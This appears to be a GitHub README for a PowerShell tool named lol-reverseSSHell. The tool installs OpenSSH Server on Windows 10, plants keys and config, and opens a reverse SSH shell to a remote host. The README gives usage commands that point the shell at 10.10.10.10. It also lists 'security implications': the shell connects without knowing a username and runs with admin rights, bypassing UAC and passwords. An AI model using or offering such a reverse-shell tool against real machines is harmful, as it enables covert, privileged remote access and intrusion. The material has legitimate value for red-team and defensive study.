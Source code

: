 # lol-reverseSSHell
Living Off the LAN Reverse Shell over SSH

This script is intended to make working with SSH reverse shells easier on Windows 10. It will install OpenSSH Server (if missing) on Windows 10 via WindowsCapability. Then it will copy the sshd_config file, SSH private key, and authorized_keys file to the proper locations on the Windows host. Finally it creates a reverse SSH connection. The shell served is CMD.exe by default. Once you're in the cmd.exe cli, you can type 'powershell' to get a PS shell. 

* Please generate NEW SSH KEYs. Use the repo keys only for testing. 

Usage: 
* .\lol-reverseSSHell.ps1 -DestinationUserName `<user>` -DestinationHost 10.10.10.10
* .\lol-reverseSSHell.ps1 -DestinationUserName `<user>` -DestinationHost 10.10.10.10 -DestinationPort 22 -DestinationBindLocalPort 7777 -InstallOpenSSHServer yes 
* get-help .\lol-reverseSSHell.ps1 

* get-help .\lol-reverseSSHell.ps1 -Examples

Remote cmd.exe in a bash terminal via ssh: 
![alt text](https://github.com/ArronJablonowski/lol-reverseSSHell/blob/main/image.png?raw=true)
Remotely executing commands via cmd.exe and powershell:  
![alt text](https://github.com/ArronJablonowski/lol-reverseSSHell/blob/main/image02.png?raw=true)

Unix vs Windows Reverse SSH Shell Differences & the Interesting Security Implications for Windows
-------------------------------------------------------------------------------------------------
Running list as I do research: 
* Unknown usernames are OK - Once you have a reverse connection, Windows does NOT require knowing the username to authenticate when using keypairs. A simple call to localhost will connect to a shell under the context of the user that initiated it. 
 
  --- Windows Example --- ssh localhost -p <localport>   
  --- Unix Example ------ ssh user123@localhost -p <localport> 
* Admin privleges - Because the shell is ran using an admin PS promt, your shell will have admin privleges without ever knowing the user's admin password. No sudo commands or UAC to prevent elevated privleges. Which means you can modify system files without issue.  

